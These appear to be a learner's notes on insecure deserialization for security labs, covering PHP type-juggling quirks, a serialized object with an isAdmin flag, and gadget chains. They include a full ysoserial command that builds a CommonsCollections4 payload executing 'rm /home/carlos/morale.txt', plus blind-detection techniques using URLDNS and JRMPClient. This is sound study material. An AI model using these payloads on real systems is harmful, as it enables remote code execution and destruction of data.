 # PHP

**v7 and earlier**:
`0 == 'whaterver'`
evalutes to true

*including 8 version*:
`5 == '5 whatever';`

Serialized object example:
`O:4:"User":2:{s:8:"username";s:6:"carlos";s:7:"isAdmin";b:0;}`

# Gadget chains
A "gadget" is a snippet of code that exists in the application that can help an attacker to achieve a particular goal. 

### Working with pre-built gadget chains

#### ysoserial - tool for payload creation for java deserialization
https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar

Example of usage on java 21:
```bash
java \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
   --add-opens=java.base/java.net=ALL-UNNAMED \
   --add-opens=java.base/java.util=ALL-UNNAMED \
   -jar ./ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64
```
Creates malicious serialized data that executes arbitrary command.
Payloads:
* `URLDNS` - performs DNS lookup
* `JRMPClient` is another universal chain that you can use for initial detection. It causes the server to try establishing a TCP connection to the supplied IP address. Note that you need to provide a raw IP address rather than a hostname. This chain may be useful in environments where all outbound traffic is firewalled, including DNS lookups. You can try generating payloads with two different IP addresses: a local one and a firewalled, external one. If the application responds immediately for a payload with a local address, but hangs for a payload with an external address, causing a delay in the response, this indicates that the gadget chain worked because the server tried to connect to the firewalled address. In this case, the subtle time difference in responses can help you to detect whether deserialization occurs on the server, even in blind cases.

#### PHP Generic Gadget Chains
```bash
git clone https://github.com/ambionics/phpggc
```

# Creating your own exploit
